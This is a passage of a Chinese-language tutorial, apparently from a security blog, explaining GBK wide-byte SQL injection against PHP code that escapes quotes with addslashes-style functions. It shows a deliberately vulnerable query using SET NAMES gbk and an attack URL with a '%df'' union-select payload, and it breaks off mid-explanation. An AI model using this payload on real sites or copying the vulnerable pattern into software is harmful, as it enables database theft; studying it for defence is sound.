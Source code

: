 

---------------------





假设一个URL存在注入但是有addslashes，mysql_real_escape_string，mysql_escape_string等等函数实现转义就比如如下代码

```php
function check_addslashes($string)

{

 $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string); //escape any backslash

 $string = preg_replace('/\'/i', '\\\'', $string); //escape single quote with a backslash

 $string = preg_replace('/\"/', "\\\"", $string); //escape double quote with a backslash 

 return $string;

}
```

定义了个一个过滤函数，然后使用它

```php
if(isset($_GET['id']))

{

$id=check_addslashes($_GET['id']);


mysql_query("SET NAMES gbk");

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$result=mysql_query($sql);

$row = mysql_fetch_array($result);
```

这儿形成的URL应该是

```php
http://www.xxx.com/index.php?id=1
```

我们敲单引号会被过滤，但又必须要敲，那么怎么办呢？这时候就利用GBK双字节注入

我们在后边这么构造URL

```php
http://www.xxx.com/index.php?id=1%df'and union select 1,2,3%23
```

这样的话id的参数传入代码层，就会在’前加一个\，由于采用的URL编码，所以产生的效果是
